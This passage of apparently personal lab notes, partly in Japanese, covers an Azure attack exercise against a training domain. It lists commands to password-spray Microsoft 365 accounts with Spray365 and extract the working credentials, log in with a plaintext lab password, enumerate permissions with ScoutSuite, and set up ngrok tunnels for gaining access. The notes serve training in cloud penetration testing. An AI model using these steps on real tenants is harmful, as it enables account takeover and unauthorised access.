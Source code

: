         --cID:      client identifer(認証で利用するアプリケーションID,office 365 managementが無難？)
                    https://learn.microsoft.com/en-us/troubleshoot/azure/active-directory/verify-first-party-apps-sign-in
        --ep:       execution plan filename(実行タスク名)
        ```
        * run
        ```
        python3.7 /opt/Spray365/spray365.py spray -ep hiboxy.s365
        ```
    * Output of Attack
    ```
    cat spray365_results_*.json | jq -r '.[] | select(._auth_complete_success == true) | .credential | "Username: \(.username) Password: \(.password)"'
    ```

### Permission and VM Gathering
* linux
    * login to azure
    ```
    az login -u aparker@hiboxy.com -p Oozle11
    ```
    * resolve Docker IP Issue
    ```
    ip -brief addr show dev docker0 | grep 172 || sudo service docker restart
    ```
    * launch the ScoutSuite container
    ```
    docker run -v /tmp/scoutsuite:/tmp/scoutsuite -it rossja/ncc-scoutsuite
    ```
    * permission gathering
    ```
    scout azure --user-account --report-dir /tmp/scoutsuite
    exit
    ```
    * open with the Firefox
    ```
    firefox /tmp/scoutsuite/azure*.html
    ```
    * vm gatherling
    ```
    az vm list -o table
    ```

### Gaining Access
* linux
    * ngrok
        * setting ngrok
        ```
        ngrok config add-authtoken AUTHTOKEN_GOES_HERE
        ```
        * write to ~/.config/ngrok/ngrok.yml
        ```
        tunnels:
            ngrok9000:
                addr: 9000
                proto: http
            ngrok9001:
                addr: 9001
                proto: http
        ```
        * launching the ngrok
        ```
        ngrok start ngrok9000 ngrok9001